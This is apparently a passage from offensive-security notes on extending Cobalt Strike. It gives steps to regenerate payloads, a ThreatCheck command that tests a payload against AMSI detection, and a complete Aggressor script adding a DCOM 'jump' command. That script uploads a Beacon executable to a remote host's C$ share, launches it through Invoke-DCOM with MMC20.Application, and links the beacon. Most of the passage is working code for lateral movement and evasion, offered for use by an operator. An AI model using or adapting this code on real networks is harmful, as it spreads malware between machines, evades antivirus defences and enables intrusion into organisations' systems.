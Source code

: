 #### Load resources.cna
- Click on Cobalt Strike -> Script Manager -> Load `resources.cna` 
- Reload cobaltstrike UI
- Use Payloads -> Windows Stageless Generate All Payloads to replace all

#### Run threatcheck on payload
```
.\ThreatCheck.exe -f <PAYLOAD> -e AMSI
```

## Extending Cobalt Strike
### Agressor scripts
### Jump and remote-exec
- https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics_aggressor-scripts/as-resources_functions.htm#beacon_remote_exploit_register
- https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics_aggressor-scripts/as-resources_functions.htm#beacon_remote_exec_method_register

#### Jump dcom command
- Using https://github.com/rvrsh3ll/Misc-Powershell-Scripts/blob/master/Invoke-DCOM.ps1
```
sub invoke_dcom
{
    local('$handle $script $oneliner $payload');

    # acknowledge this command1
    btask($1, "Tasked Beacon to run " . listener_describe($3) . " on $2 via DCOM", "T1021");

    # read in the script
    $handle = openf(getFileProper("C:\\Tools", "Invoke-DCOM.ps1"));
    $script = readb($handle, -1);
    closef($handle);

    # host the script in Beacon
    $oneliner = beacon_host_script($1, $script);

    # generate stageless payload
    $payload = artifact_payload($3, "exe", "x64");

    # upload to the target
    bupload_raw($1, "\\\\ $+ $2 $+ \\C$\\Windows\\Temp\\beacon.exe", $payload);

    # run via powerpick
    bpowerpick!($1, "Invoke-DCOM -ComputerName  $+  $2  $+  -Method MMC20.Application -Command C:\\Windows\\Temp\\beacon.exe", $oneliner);

    # link if p2p beacon
    beacon_link($1, $2, $3);
}

beacon_remote_exploit_register("dcom", "x64", "Use DCOM to run a Beacon payload", &invoke_dcom);
```
